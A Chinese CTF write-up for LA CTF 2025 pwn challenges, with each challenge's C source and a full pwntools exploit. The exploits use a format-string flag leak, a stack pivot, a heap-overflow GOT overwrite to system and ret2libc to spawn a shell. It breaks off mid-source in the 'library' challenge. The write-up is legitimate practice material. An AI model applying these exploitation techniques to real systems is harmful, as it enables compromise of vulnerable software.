







# 2025-02-09-LA_CTF-部分Pwn解题思路

‍

‍

‍

‍

## 2password

* 题目源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

如果输入的用户名和 `kaiphait`​ 对不上，就会触发格式字符串漏洞输出 用户名

flag 已经被读到stack 上了,利用漏洞 %p 泄露 stack的flag

* exploit

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31142'.replace(' ',':')
binary = './chall'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))

u = ''.join([f'%{i}$p-' for i in range(6,20)])
p = 'correct horse battery staple\x00'

io = start([])
#gdb.attach(io)
ru(': ')
sl(u)
ru(': ')
sl(p)
ru(': ')
sl('123')
ru('Incorrect password for user ')
while(1):
    #x =  bytes.fromhex(ru('-')[2:])
    x =  bytes.fromhex((ru('-')[2:-1]).decode())[::-1]
    print(x.decode(),end='')
    #pause()
itr()

```

​​

‍

‍

## state-change

‍

* 源码

```c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
  
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}

int main(){

    state = 0xdeaddead;
    strcpy(errorMsg, "Couldn't read flag file. Either create a test flag.txt locally and try connecting to the server to run instead.");

    setbuf(stdin, 0);
	setbuf(stdout, 0);

    vuln();
  
    return 0;
}
```

存在溢出和输出flag 的函数， 利用 stack 迁移 把 bss 的 state 值修改如何ret 到 `win()`​ 即可

* exploit

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31593'.replace(' ',':')
binary = './chall'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
io = start([])
#gdb.attach(io,gdbscript)
pay = b'A' * 0x20 + p64(0x404540+0x18) + p64(0x04012D0)[:-0x1]
s(pay)

pause()
pay = p64(0xF1EEEE2D)*4 + p64(0) + p64(0x04011DA)
sl(pay)
#pay = flat({
#},filler=b'\x00')

itr()

```

​​

‍

‍

## gamedev

* 源码

```c
#include <stdio.h>
#include <stdlib.h>

struct Level *start = NULL;
struct Level *prev = NULL;
struct Level *curr = NULL;

struct Level
{
    struct Level *next[8];
    char data[0x20];
};

int get_num()
{
    char buf[0x10];
    fgets(buf, 0x10, stdin);
    return atoi(buf);
}

void create_level()
{
    if (prev == curr) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }

    printf("Enter level index: ");
    int idx = get_num();

    if (idx < 0 || idx > 7) {
        puts("Invalid index.");
        return;
    }
  
    struct Level *level = malloc(sizeof(struct Level));
    if (level == NULL) {
        puts("Failed to allocate level.");
        return;
    }

    level->data[0] = '\0';
    for (int i = 0; i < 8; i++)
        level->next[i] = NULL;

    prev = level;

    if (start == NULL)
        start = level;
    else
        curr->next[idx] = level;
}

void edit_level()
{
    if (start == NULL || curr == NULL) {
        puts("No level to edit.");
        return;
    }

    if (curr == prev || curr == start) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }
  
    printf("Enter level data: ");
    fgets(curr->data, 0x40, stdin); // 这里存在堆溢出
}

void test_level()
{
    if (start == NULL || curr == NULL) {
        puts("No level to test.");
        return;
    }

    if (curr == prev || curr == start) {
        puts("We encourage game creativity so try to mix it up!");
        return;
    }
  
    printf("Level data: ");
    write(1, curr->data, sizeof(curr->data));
    putchar('\n');
}

void explore()
{
    printf("Enter level index: ");
    int idx = get_num();

    if (idx < 0 || idx > 7) {
        puts("Invalid index.");
        return;
    }

    if (curr == NULL) {
        puts("No level to explore.");
        return;
    }
  
    curr = curr->next[idx];
	// 默认 指针里前七个qword 不可以控制
	// 但是通过edit 的堆溢出 可以 修改到

}
// 0x5738af850300  0x0000000000000000      0x0000000000000071      ........q....... idx 0
// 0x5738af850310  0x0000000000000000      0x0000000000000000      ................
// 0x5738af850320  0x0000000000000000      0x0000000000000000      ................
// 0x5738af850330  0x0000000000000000      0x0000000000000000      ................
// 0x5738af850340  0x0000000000000000      0x0000000000000000      ................
// 0x5738af850350  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
// 0x5738af850360  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
// 0x5738af850370  0x4141414141414141      0x0000000000000071      AAAAAAAAq....... idx 1
// 0x5738af850380  0x000057388484aff8      0x000000000000000a      ....8W..........
// 0x5738af850390  0x0000000000000000      0x0000000000000000      ................
// 0x5738af8503a0  0x0000000000000000      0x0000000000000000      ................
// 0x5738af8503b0  0x0000000000000000      0x0000000000000000      ................
// 0x5738af8503c0  0x0000000000000000      0x0000000000000000      ................
// 0x5738af8503d0  0x0000000000000000      0x0000000000000000      ................

// 会挂掉，因为 2次 explore(0) 后 curr 会成空
// 再次 create_level ... curr->next[idx] = level; 
// add(0)
// explore(0)
// explore(0)
// add(1)


void reset()
{
    curr = start;
}

void menu()
{
    puts("==================");
    puts("1. Create level");
    puts("2. Edit level");
    puts("3. Test level");
    puts("4. Explore");
    puts("5. Reset");
    puts("6. Exit");

    int choice;
    printf("Choice: ");
    choice = get_num();

    if (choice < 1 || choice > 6)
        return;
  
    switch (choice)
    {
        case 1:
            create_level();
            break;
        case 2:
            edit_level();
            break;
        case 3:
            test_level();
            break;
        case 4:
            explore();
            break;
        case 5:
            reset();
            break;
        case 6:
            exit(0);
    }
}

void init()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    // Add starting level
    start = malloc(sizeof(struct Level));
    start->data[0] = '\0';
    for (int i = 0; i < 8; i++)
        start->next[i] = NULL;
    curr = start;
}

int main()
{
    init();
    puts("Welcome to the heap-like game engine!");
    printf("A welcome gift: %p\n", main);
    while (1)
        menu();
    return 0;
}

```

* exploit

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31338'.replace(' ',':')
binary = './chall'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
brva 0x01497
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
io = start([])

def add(idx):
    ru(': ')
    sl('1')
    ru(': ')
    sl(str(idx))

def edit(text):
    ru(': ')
    sl('2')
    ru(': ')
    s(text)
def test():
    ru(': ')
    sl('3')
    ru(': ')
def explore(idx):
    ru(': ')
    sl('4')
    ru(': ')
    sl(str(idx))

def reset():
    ru(': ')
    sl('5')
ru('A welcome gift: ')
elf_base = int(rl(),16) - elf.sym['main']
elf.address = elf_base
add(0)
add(1)
add(2)
add(3)
explore(0)
pay  = b'A' * 0x28
pay += p64(0x71)
pay += p64(elf.got['atoi']-0x40)
edit(pay+b'\n')
#test()
reset()
explore(1)
lss('elf_base')
#reset()
explore(0)
test()
libc_base = uu64(r(8)) - libc.sym['atoi']
libc.address = libc_base
lss('libc_base')
#gdb.attach(io,gdbscript)

edit(p64(libc.sym['system'])+b'\n')
sl('/bin/sh\x00')
itr()
```

‍

## minceraft

* 源码

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int read_int() {
  int x;
  if (scanf(" %d", &x) != 1) {
    puts("wtf");
    exit(1);
  }
  return x;
}

int main(void) {
  setbuf(stdout, NULL);
  while (1) {
    puts("\nM I N C E R A F T\n");
    puts("1. Singleplayer");
    puts("2. Multiplayer");
    if (read_int() != 1) {
      puts("who needs friends???");
      exit(1);
    }
    puts("Creating new world");
    puts("Enter world name:");
    char world_name[64];
    scanf(" ");
    gets(world_name);
    puts("Select game mode");
    puts("1. Survival");
    puts("2. Creative");
    if (read_int() != 1) {
      puts("only noobs play creative smh");
      exit(1);
    }
    puts("Creating new world");
    sleep(1);
    puts("25%");
    sleep(1);
    puts("50%");
    sleep(1);
    puts("75%");
    sleep(1);
    puts("100%");
    puts("\nYOU DIED\n");
    puts("you got blown up by a creeper :(");
    puts("1. Return to main menu");
    puts("2. Exit");
    if (read_int() != 1) {
      return 0;
    }
  }
}


```

直接gets栈溢出, 由于找不到 `pop rdi;ret`​, 可以利用read_int 函数 设置 rax 然后 `mov rdi,rax;call _puts`​ 泄露 libc地址

后面就是正常的ret2libc 了

```bash
ROPgadget --binary ./chall |grep "pop"  
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2eeb], 1 ; pop rbp ; ret
0x000000000040115d : pop rbp ; ret

# .text:0000000000401243                 mov     rdi, rax        ; s
# .text:0000000000401246                 call    _puts
# .text:000000000040124B                 lea     rax, asc_40207D ; " "
# .text:0000000000401252                 mov     rdi, rax        ; a1
# .text:0000000000401255                 mov     eax, 0
# .text:000000000040125A                 call    ___isoc99_scanf
# .text:000000000040125F                 lea     rax, [rbp-64]
# .text:0000000000401263                 mov     rdi, rax
# .text:0000000000401266                 call    _gets
```

‍

* exploit

```python
# imLZH1
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'chall.lac.tf 31137'.replace(' ',':')
binary = './chall'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))

libc = context.binary.libc
elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')

#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)

gdbscript = '''
b *0x401388
b *0x0401379
b *0x0401266
#continue
'''.format(**locals())

#io = remote(*attack.split(':'))
io = start([])

#gdb.attach(io,gdbscript)
ru('2. Multiplayer\n')
sl('1')
read = 0x401176
t1 = 0x401243
bss = (elf.bss()>>0xC<<0xC) + 0x800
ru('Enter world name:')
pay = b'A' * 0x40 +p64(bss) +p64(0x0401388)+ p64(read) + p64(0x0401243)
sl(pay)
ru('Creative')
sl('1')
ru('2. Exit\n')
sl(str(0x404000))
pause()
sl(str(0x404000))
libc_base = uu64(r(6)) - libc.sym['puts']
libc.address = libc_base
system = libc.sym['system']
bin_sh = next(libc.search(b'/bin/sh'))
poprdi = next(libc.search(asm('pop rdi;ret')))
lss('libc_base')

pause()
pay = b'A' * 0x40 +p64(bss) +p64(poprdi+1)+p64(poprdi) + p64(bin_sh) + p64(system)
sl(pay)
ru('Creative')
sl('1')
ru('2. Exit\n')
sl(str(0x404000))

#pause()
#pay = b'A' * 0x40 +p64(bss) +p64(0x0401388)+ p64(read)
#pay = flat({
#},filler=b'\x00')

itr()

```

‍

## library

* 源码

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/sendfile.h>
#include <unistd.h>

int read_int()
{
	char buf[0x10] = {};
	read(0, buf, sizeof(buf)-1);
	return atoi(buf);
}

struct Book {
	int id;
	char name[0x10];
	char *review;
};

struct Settings {
	uint64_t id;
	char profile[0x18];
	char *card;
	uint16_t comprehension;
};

#define MAX_BOOKS 64
int book_cnt = 0;
struct Book *library[MAX_BOOKS];
// redundant array of independent settings for security :P
struct Settings *settings, *rais1, *rais2;

void order_book()
{
	struct Book *book = malloc(sizeof(struct Book));
	library[book_cnt] = book;
	book->id = book_cnt++;
	printf("ordering book with id: %d\n", book->id);
	book->review = 0;
	printf("enter name: ");
	int cnt = read(0, book->name, 0xf);
	book->name[cnt] = 0;
	if (cnt > 0 && book->name[cnt-1] == '\n')
		book->name[cnt-1] = 0;
	printf("book \"%s\" successfully ordered :D\n", book->name);
}

void read_book()
{
	printf("enter id: ");
	int id = read_int();
	if (id < 0 || id >= MAX_BOOKS || !library[id]) {
		puts("invalid book id D:");
		return;
	}
	struct Book *book = library[id];
	int fd = open(book->name, O_RDONLY);
	if (fd < 0) {
		printf("the book \"%s\" does not exist D:\n", book->name);
		return;
	}
	puts("watch out, book incoming!");
	if (*(long*)settings->profile != 0x1a1) {
		off_t off = 0;
		sendfile(1, fd, &off, settings->comprehension);
	} else {
		char *buf = malloc(settings->comprehension);
		int cnt = read(fd, buf, settings->comprehension);
		write(1, buf, cnt);
		free(buf);
	}
	puts("\nhope you enjoyed the read :D");
}

void review_book()
{
	printf("enter id: ");
